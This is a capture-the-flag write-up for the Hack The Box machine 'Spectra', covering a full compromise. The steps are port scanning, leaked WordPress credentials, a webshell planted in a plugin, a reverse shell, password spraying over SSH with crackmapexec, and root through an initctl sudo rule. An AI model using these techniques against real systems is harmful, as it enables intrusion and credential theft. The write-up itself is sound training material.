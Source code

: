 # [Spectra](https://app.hackthebox.com/machines/Spectra)

```bash
nmap -p- --min-rate 10000 10.10.10.229 -Pn 
```

![Alt text](img/image.png)

After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,3306 10.10.10.229
```

![Alt text](img/image-1.png)


There's home page after visiting this ip address about `Testing` field.

I see that this ip address is resolved into `spectra.htb` domain, let's add this into `/etc/hosts` file.


![Alt text](img/image-2.png)


While looking at `/testing` endpoint, I see a lot of files here.

![Alt text](img/image-3.png)


There's file called `wp_config.php.save` which have sensitive credentials.

![Alt text](img/image-4.png)

devtest: devteam01


While looking at main page, I can't find anything.

![Alt text](img/image-5.png)

Let's do `directory enumeration` via `gobuster` tool.

```bash
gobuster dir -u http://spectra.htb/main/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,csv,pdf,config,xml -t 40 
```

![Alt text](img/image-6.png)

While I try login via above credentials, it didn't worked, I changed username from `devtest` into `administrator`, and IT WORKED.

![Alt text](img/image-7.png)

Let's upload our webshell into some location for target web application.


I click `Plugins` -> `Plugin-Editor` and edit file called `akismet.php` , means I add my webshell code into here.

![Alt text](img/image-8.png)


Let's browse our webshell via `curl` command.

```bash
curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?cmd=id
```

![Alt text](img/image-9.png)


Let's add our reverse shell here, but `URL-ENCODED`, I use [revshells](https://www.revshells.com/).

![Alt text](img/image-10.png)


I paste this payload into web application.


![Alt text](img/image-11.png)


I got reverse shell from port (1337).

![Alt text](img/image-12.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-13.png)


I found interesting file called `autologin.conf.orig` on `/opt` directory.

![Alt text](img/image-14.png)

I read file called `passwd` from `/etc/autologin` directory.

![Alt text](img/image-15.png)

Maybe this password of one user from this time.

Password: SummerHereWeCome!!

There's possible users are listed below.
```bash
chronos
katie
nginx
root
user
```

Let's check this password via this user means `Password Spray` attack by using `crackmapexec` tool.

```bash
crackmapexec ssh 10.10.10.229 -u users -p 'SummerHereWeCome!!' --continue-on-success
```

![Alt text](img/image-16.png)


That's password of `katie` user.

katie: SummerHereWeCome!!


user.txt

![Alt text](img/image-17.png)


For privilege escalation, I just run `sudo -l` command and see privileges of this user.

![Alt text](img/image-18.png)


I found this [blog](https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9) for privilege escalation.

This binary executes files from `/etc/init` folder.

I change content of `test.conf` file from this folder like below.

So that I give `SUID` privilege to `/bin/bash` binary to get root shell.

Let's run `initctl` binary.
```bash
sudo /sbin/initctl start test
```

![Alt text](img/image-20.png)

If we type `/bin/bash -p` to terminal, we got root shell.

root.txt

![Alt text](img/image-19.png)